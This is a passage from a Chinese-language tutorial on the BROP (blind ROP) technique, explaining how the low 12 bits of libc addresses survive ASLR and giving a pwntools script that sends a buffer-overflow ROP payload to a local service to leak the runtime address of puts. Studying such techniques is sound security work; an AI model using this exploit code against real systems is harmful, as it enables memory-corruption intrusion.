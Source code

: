 #### 获取puts函数真正运行的地址

我们可以通过使用 `puts_plt` 来打印 `puts_got` 地址所指的内容，但是我们没有目标使用的 `libc` ，如果目标开启了 `ASLR`，那么无法通过偏移来计算出 `system` 函数和 `/bin/sh`的地址。但是在 `Linux` 的 `ASLR` 中有一些缺陷，函数在内存中的地址是随机化的，即使程序有 `ASLR` 保护，也只是针对于地址中间位进行随机，，内存地址的末尾 `12 bit` 的内容是不随机的，也就是说我们可以先获取 `puts` 的 `got` 中的地址，之后获取最后 `3` 位，之后和所有的 `libc` 版本的地址进行比较，看看能匹配哪一个，我们先获取 `puts` 的 `got` 中保存的地址。

```python
# -*- coding:utf-8 -*-
from __future__ import print_function
from pwn import *

def get_puts_addr(buf_size, stop_gadget, useful_gadget, puts_plt, puts_got):
    pop_rdi_ret = useful_gadget + 9
    payload = 'a'*buf_size + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(stop_gadget)
    try:
        p = remote("127.0.0.1",9999)
        p.recvline("password?")
        p.sendline(payload)
        accept_str = p.recvline(timeout=0.5)
        put_addr = u64(accept_str[:-1]+'\x00\x00')
        log.info("put_address: 0x%x",put_addr)
        return put_addr
    except:
        log.info("connect error")

if __name__ == "__main__":
    buf_size = 72
    stop_gadget = 0x400590
    useful_gadget = 0x40078a
    puts_plt = 0x400545
    puts_got = 0x601018
    put_addr = get_puts_addr(buf_size, stop_gadget, useful_gadget, puts_plt, puts_got)
```

![image-20220803194724957](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220803194724957.png)
